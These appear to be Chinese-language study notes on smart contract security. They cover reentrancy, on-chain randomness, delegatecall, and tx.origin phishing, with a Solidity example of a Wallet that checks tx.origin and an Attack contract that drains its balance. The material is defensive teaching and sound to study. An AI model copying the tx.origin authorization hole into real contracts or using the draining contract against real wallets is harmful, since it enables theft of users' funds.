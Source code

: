 ### 重入攻击
* 先变更状态，再进行转账

---
* 不要使用链上数据构造随机数
* delegatecall 少用，它是根据slot位置进行字段对应的


### 交易原始地址欺骗攻击
* msg.sender 是上层调用者的地址
* tx.origin 读取启动交易的原始地址

```solidity
contract Wallet {
  address public owner;
  constructor() payable {
    owner = msg.sender;
  }
  function transfer(address payable _to, uint _amount) public {
    // 这里万一直接上层不是owner，就会出问题
    // 使用msg.sender 判断
    require(tx.origin == owner, "Not owner");
    (bool sent, ) = _to.call{value: _amount}("");
    require(sent, "Failed to send Ether");
  }
}
contract Attack {
  address payable public owner;
  Wallet wallet;
  constructor(Wallet _wallet) {
    wallet = Wallet(_wallet);
    owner = payable(msg.sender);
  }
  function attack() public {
    wallet.transfer(owner, address(wallet).balance);
  }
}
```
